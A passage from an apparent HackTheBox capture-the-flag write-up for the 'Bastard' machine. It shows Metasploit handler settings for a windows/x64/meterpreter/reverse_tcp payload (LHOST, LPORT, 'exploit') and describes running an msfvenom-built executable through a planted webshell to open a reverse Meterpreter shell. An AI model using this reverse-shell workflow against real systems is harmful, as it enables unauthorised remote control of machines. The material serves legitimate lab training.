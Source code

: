 Next, set the payload to the same as the one from msfvenom, `windows/x64/meterpreter/reverse_tcp`

- Set LHOST to your HTB IP
- Set LPORT to the one from MSFVenom
- Now type `exploit` to start the listner

![msf-options](/images/hackthebox-writeups/bastard/msf-3.png)

### Popping a Meterpreter Shell

Now that the listner is running, we can go back to our webshell and simply enter the `msf.exe` command like this:

![msf-4](/images/hackthebox-writeups/bastard/msf-4.png)
